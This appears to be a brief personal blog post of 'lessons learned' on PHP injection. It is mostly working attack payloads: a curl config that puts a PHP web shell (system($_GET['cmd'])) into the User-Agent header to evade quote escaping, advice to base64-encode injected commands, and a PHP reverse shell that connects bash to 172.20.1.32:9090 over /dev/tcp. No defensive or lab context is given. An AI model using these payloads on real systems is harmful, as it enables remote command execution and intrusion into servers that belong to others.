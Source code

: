 ```yaml
---
layout: post
author: redle
---
```


 Some leasons learned...

# PHP Injection:
## Use User Agent to avoid scape ' or "
> curl -K file
> file:
> user-agent = "<?php system($_GET['cmd']) ?>"

## Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

## PHP Shell:
```
<?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
```
